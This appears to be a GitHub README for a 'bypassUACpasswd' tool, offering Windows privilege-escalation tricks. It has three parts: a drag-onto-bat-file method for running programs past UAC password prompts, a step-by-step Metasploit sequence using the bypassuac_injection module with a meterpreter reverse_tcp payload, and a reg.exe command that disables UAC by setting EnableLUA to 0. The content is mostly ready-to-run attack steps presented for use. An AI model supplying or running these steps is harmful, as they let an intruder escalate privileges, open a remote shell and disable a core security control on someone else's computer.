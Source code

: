 # bypassUACpasswd to run programs , and other UAC TRICKS to by pass from meterpreter.


1 download any program u wanna install or run on windows 10 that is protected by UAC password

2 click on the program and drag to the bat file 

3 DONE!

special thanks to wolfyytheslayer
=============================
# for meterpreter
# how to bypass UAC after having a permission denied on windows 10-7


1 on meterpreter type background & remember the session number

2 use exploit/windows/local/bypassuac_injection 
3 set session "number"
4 set payload windows/x64/meterpreter/reverse_tcp
5 run 

* if you are stuck type show options for more informations.



================= DISABLE UAC ==================

# to disable 
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f

============
# to enable
============
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f


